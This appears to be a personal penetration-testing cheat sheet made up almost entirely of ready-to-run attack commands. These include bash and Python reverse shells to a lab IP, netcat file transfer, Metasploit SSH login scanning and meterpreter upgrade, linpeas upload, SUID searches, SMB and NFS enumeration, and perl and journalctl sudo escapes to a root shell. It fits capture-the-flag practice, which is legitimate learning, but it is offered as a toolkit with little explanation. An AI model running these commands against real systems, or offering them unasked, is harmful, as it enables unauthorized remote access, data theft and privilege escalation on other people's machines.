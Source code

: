 # Attempt to Elevate permissions after entry


## Download file to remote host

Host:
```
nc -l PORT < /path/to/file
```

Client:
```
nc IP PORT > file
```

## Open SSH through Metasploit

```
use auxiliary/scanner/ssh/ssh_login
```

## Upgrade shell to meterpreter

```
use post/multi/manage/shell_to_meterpreter
```

### Gather random exploits possibilities.

```
use post/multi/recon/local_exploit_suggester
```
Gives readout of possible vulnerabilities of connected host


### NFS (RPCBIND?)

Enumerate NFS shares.

```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.223.98
```



# Linux Specific

```sudo -l```

```whoami```

### Bash based reverse shell

```
bash -c 'bash -i >& /dev/tcp/10.10.14.14/9001 0>&1'
```

### Python based reverse shell

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' &
```


### Upgrade Shell to TTY

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```


### Run command as specific user
```
sudo -u USER command
```

### Start shell as specific user
```
sudo -u USER bash -i
```

## Search specific word

```grep -n "WORD" /path/to/file(s)```

-n lists line number

-r - recursively check all files matching path

-B # - Prints this many lines before

-A # - Prints this many lines after

## LinPEAS

https://github.com/carlospolop/PEASS-ng/releases

Only need linpeas.sh

```
scp /home/mike/linpeas.sh USER@IP:/home/USER
```
```
./linpeas.sh
```

## Search for SUID Bit files

SUID Bit - User executes the file with permissions of the file owner

```
find / -perm -u=s -type f 2>/dev/null
```


# FTP

Replicate entire FTP
```
wget -m ftp://anonymous:anonymous@IP
```


# Samba share

## Quick Enumeration

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse IP
```

Change port to match nmap results. (Usually 139 or 445)

## Deep Enumeration

```
enum4linux -a IP | tee enum4linux.log
```


## Inspect Samba Share

```
smbclient //ip/sambashare
```


## Recursively download the SMB share

```
smbget -R smb://ip/sambashare
```

# PERL elevation

```
sudo /usr/bin/perl -e 'exec "/bin/sh"'
```

# JournalCTL Less exploitation

```
/usr/bin/sudo /usr/bin/journalctl -n5 - service.service

```
creates `less` to create 

Follow up with
```
!/bin/bash
``` 
to get root
